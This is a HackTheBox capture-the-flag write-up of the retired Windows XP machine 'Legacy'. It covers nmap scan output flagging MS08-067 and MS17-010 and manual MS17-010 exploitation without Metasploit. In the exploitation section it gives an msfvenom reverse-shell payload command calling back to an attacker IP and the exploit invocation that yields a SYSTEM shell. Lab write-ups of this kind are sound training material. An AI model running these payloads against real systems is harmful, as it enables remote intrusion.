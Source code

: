 ```yaml
---
title: Legacy Writeup- HackTheBox
author: pwnd_root
date: 2020-07-09 00:30:00 +0530
excerpt: A windows host from HackTheBox, owned by exploiting SMB vulnerability, without metasploit.
thumbnail: /assets/img/posts/legacy/info.png
categories: [HackTheBox, Retired]
tags: [htb, samba, without metasploit, MS17-010, windows]
---
```

![Info Card](/assets/img/posts/legacy/info.png)

## Methodology
1. Port Enumeration
2. Samba version enumeration
3. Manual exploit
4. SYSTEM access to target

## Port Enumeration
The nmap port scan had identified 2 open ports- netbios-ssn (139) and microsoft-ds (445), running SMB services.
The vulnerability script scan had identified the vulnerabilities **MS08-067** and **MS17-010** from the Microsoft 
Security Bulletin.  
``` 
[pwnd_root@manjaro Legacy]$ targetRecon 10.10.10.4
[+] Open Ports Scan
        139     netbios-ssn
        445     microsoft-ds
[+] Scripts Scan
                 nmap -sV -sC --script=vuln -p 139 10.10.10.4

Starting Nmap 7.80 ( https://nmap.org ) at 2020-07-08 19:52 IST
Pre-scan script results:
| broadcast-avahi-dos: 
|   Discovered hosts:
|     224.0.0.251
|   After NULL UDP avahi packet DoS (CVE-2011-1002).
|_  Hosts are all up (not vulnerable).
Nmap scan report for 10.10.10.4 (10.10.10.4)
Host is up (0.36s latency).

PORT    STATE SERVICE     VERSION
139/tcp open  netbios-ssn Microsoft Windows netbios-ssn
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_samba-vuln-cve-2012-1182: NT_STATUS_ACCESS_DENIED
| smb-vuln-ms08-067: 
|   VULNERABLE:
|   Microsoft Windows system vulnerable to remote code execution (MS08-067)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2008-4250
|           The Server service in Microsoft Windows 2000 SP4, XP SP2 and SP3, Server 2003 SP1 and SP2,
|           Vista Gold and SP1, Server 2008, and 7 Pre-Beta allows remote attackers to execute arbitrary
|           code via a crafted RPC request that triggers the overflow during path canonicalization.
|           
|     Disclosure date: 2008-10-23
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2008-4250
|_      https://technet.microsoft.com/en-us/library/security/ms08-067.aspx
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: ERROR: Script execution failed (use -d to debug)
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1                                                                                                 
|        servers (ms17-010).                                                                                                                                                     
|                                                                                                                                                                                
|     Disclosure date: 2017-03-14                                                                                                                                                
|     References:                                                                                                                                                                
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx                                                                                                       
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/                                                                            
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143                                                                                                             

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .                                                                                   
Nmap done: 1 IP address (1 host up) scanned in 54.69 seconds                                                                                                                     

                 nmap -sV -sC --script=vuln -p 445 10.10.10.4

Starting Nmap 7.80 ( https://nmap.org ) at 2020-07-08 19:53 IST                                                                                                                  
Pre-scan script results:                                                                                                                                                         
| broadcast-avahi-dos:                                                                                                                                                           
|   Discovered hosts:                                                                                                                                                            
|     224.0.0.251                                                                                                                                                                
|   After NULL UDP avahi packet DoS (CVE-2011-1002).                                                                                                                             
|_  Hosts are all up (not vulnerable).                                                                                                                                           
Nmap scan report for 10.10.10.4 (10.10.10.4)                                                                                                                                     
Host is up (0.34s latency).                                                                                                                                                      

PORT    STATE SERVICE      VERSION                                                                                                                                               
445/tcp open  microsoft-ds Microsoft Windows XP microsoft-ds                                                                                                                     
|_clamav-exec: ERROR: Script execution failed (use -d to debug)                                                                                                                  
Service Info: OS: Windows XP; CPE: cpe:/o:microsoft:windows_xp                                                                                                                   

Host script results:
|_samba-vuln-cve-2012-1182: NT_STATUS_ACCESS_DENIED
| smb-vuln-ms08-067: 
|   VULNERABLE:
|   Microsoft Windows system vulnerable to remote code execution (MS08-067)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2008-4250
|           The Server service in Microsoft Windows 2000 SP4, XP SP2 and SP3, Server 2003 SP1 and SP2,
|           Vista Gold and SP1, Server 2008, and 7 Pre-Beta allows remote attackers to execute arbitrary
|           code via a crafted RPC request that triggers the overflow during path canonicalization.
|           
|     Disclosure date: 2008-10-23
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2008-4250
|_      https://technet.microsoft.com/en-us/library/security/ms08-067.aspx
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: ERROR: Script execution failed (use -d to debug)
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|_      https://technet.microsoft.com/en-us/library/security/ms17-010.aspx

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 52.58 seconds

[+] Summary 
139     netbios-ssn     Microsoft Windows netbios-ssn N/A
Vulnerabilities
['smb-vuln-ms08-067', 'smb-vuln-ms17-010']

445     microsoft-ds    Microsoft Windows XP microsoft-ds N/A
Vulnerabilities
['smb-vuln-ms08-067', 'smb-vuln-ms17-010']
```
## Manual Exploit
The exploits from exploit-db for **MS17-010** did not work as expected. With the intention of avoiding metasploit module, 
after googling for a while a working
 manual exploit named [send_and_execute.py](https://github.com/helviojunior/MS17-010) was found. 
 > Note: The exploit requires **Impacket** and **mysmb.py** in order to work.

## SYSTEM access
As per the source code, the exploit takes two mandatory arguments, *target IP* and the *executable* that gets executed on the
target as *SYSTEM* user. A windows reverse shell as an executable was generated with *msfvenom* as follows.
``` 
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.16 LPORT=9090 EXITFUNC=thread -f exe -a x86 --platform windows -o legacy.exe
No encoder or badchars specified, outputting raw payload
Payload size: 324 bytes
Final size of exe file: 73802 bytes
Saved as: legacy.exe
```
Post generating the reverse shell, a netcat listener on port 9090 was started on the attacking machine. The exploit was 
executed as ```python2.7 send_and_execute.py 10.10.10.4 legacy.exe```
After successful execution of the exploit, a reverse shell was captured on the netcat listener.

![User Shell](/assets/img/posts/legacy/user.png)

![SYSTEM Shell](/assets/img/posts/legacy/system.png)

> Being an old Windows XP OS, the target did not have *whoami* binary installed. One method of finding out the current 
user is to upload a *32-bit whoami executable* to the target and use it. However the easiest way to check if we have
*Administrator* access, is by checking if **root.txt** from *C:\Documents and Settings\Administrator\Desktop* is readable.